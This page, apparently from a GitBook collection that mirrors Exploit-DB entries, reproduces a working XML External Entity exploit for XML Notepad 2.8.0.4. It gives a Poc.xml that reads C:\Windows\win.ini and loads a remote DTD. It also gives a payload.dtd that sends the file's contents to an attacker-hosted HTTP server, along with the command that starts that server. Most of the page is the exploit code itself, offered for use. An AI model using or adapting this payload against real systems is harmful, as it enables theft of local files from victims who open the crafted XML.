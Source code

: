 ```yaml
---
description: >-
  https://awesome.hackpuntes.com/exploit-db/xml-notepad-2.8.0.4-xml-external-entity-injection
---
```


# XML Notepad 2.8.0.4 - XML External Entity Injection

{% embed url="https://www.exploit-db.com/exploits/47606" %}

### FILES

{% file src="../.gitbook/assets/xml-notepad-v2.8.0.4.zip" caption="Vulnerable software" %}

### POC

{% embed url="https://www.youtube.com/watch?v=o6ltE-Bv8ww" %}



### ORIGINAL

```text
# Exploit Title: XML Notepad 2.8.0.4 - XML External Entity Injection
# Date: 2019-11-11
# Exploit Author: 8-Team / daejinoh
# Vendor Homepage:  https://www.microsoft.com/  
# Software Link:  https://github.com/microsoft/XmlNotepad  
# Version: XML Notepad 2.8.0.4
# Tested on: Windows 10 Pro
# CVE : N/A

# Step
1) File -> Open -> *.xml

# Exploit Code

1) Server(python 3.7) : python -m http.server
2) Poc.xml : 
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "C:\Windows\win.ini">
<!ENTITY % dtd SYSTEM "http://127.0.0.1:8000/payload.dtd">
%dtd;]>
<pwn>&send;</pwn>

3) payload.dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'http://127.0.0.1:8000?%file;'>">
%all;

  -------------------------------------------------------------------------------- 
```

